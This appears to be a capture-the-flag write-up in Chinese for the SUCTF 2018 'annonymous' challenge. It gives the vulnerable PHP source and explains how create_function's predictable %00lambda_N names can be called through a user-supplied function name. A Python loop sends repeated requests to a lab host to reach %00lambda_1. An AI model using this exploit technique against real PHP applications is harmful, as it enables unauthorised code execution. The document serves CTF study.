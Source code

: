 ```yaml
---
[SUCTF 2018]annonymous
---
```


- Create_function匿名函数

```php
 <?php
$MY = create_function("","die(`cat flag.php`);");
$hash = bin2hex(openssl_random_pseudo_bytes(32));
eval("function SUCTF_$hash(){"
    ."global \$MY;"
    ."\$MY();"
    ."}");
if(isset($_GET['func_name'])){
    $_GET["func_name"]();
    die();
}
show_source(__FILE__); 
```

```
create_function()这个函数的漏洞，他create之后会自动生成一个函数名为%00lambda_%d
```

```python
import requests
while True:
    r=requests.get('http://e96e98d8-74c1-459b-a4b1-8cd22c6a2c65.node3.buuoj.cn/?func_name=%00lambda_1')
    print(r.text)
```

`%d`这个值是一直递增的，这里的`%d`会一直递增到最大长度直到结束，这里我们可以通过大量的请求来迫使`Pre-fork`模式启动的Apache启动新的线程，这样这里的%d会刷新为1，就可以预测了。

